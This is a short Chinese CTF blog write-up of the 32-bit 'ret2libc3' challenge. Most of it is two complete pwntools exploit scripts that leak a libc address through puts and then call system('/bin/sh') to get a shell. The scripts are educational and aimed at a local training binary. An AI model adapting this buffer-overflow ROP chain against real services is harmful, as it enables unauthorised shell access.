


# 
#0blog

标准的ROP写法，这题主要记录一下，当时调的时候，`/bin/sh`的位置各种不对，后来反应过来，加载的libc是题目提供的，但程序跑起来的时候用的是自己系统中的libc，两个版本还不一样，所以地址不准确。。。😓

自己直接用libc的代码：

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
p = process("./ret2libc3")

libc = ELF("./libc.so")
elf = ELF("./ret2libc3")

puts_plt = elf.plt['puts']
libc_got = elf.got['__libc_start_main']
main = elf.symbols['main']

payload = 'A' * 112 + p32(puts_plt) + p32(main) + p32(libc_got)
#gdb.attach(proc.pidof(p)[0])
p.sendlineafter('Can you find it !?', payload)

libc_start_main_addr = u32(p.recv()[:4])

print '__libc_start_main: ' + hex(libc_start_main_addr)

system_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - libc.symbols['system'])
binsh_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - next(libc.search("/bin/sh")))

print 'system_addr: ' + hex(system_addr)
print 'binsh_addr: ' + hex(binsh_addr)
payload = 'A' * 104 + p32(system_addr) + p32(main) + p32(binsh_addr)

p.sendline(payload)
p.interactive()
```




或者使用LibcSearch，可以更方便的得到各个函数的地址：

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print hex(puts_plt), hex(libc_start_main_got), hex(main)
print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print 'binsh_addr: ' + hex(binsh_addr)
print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```
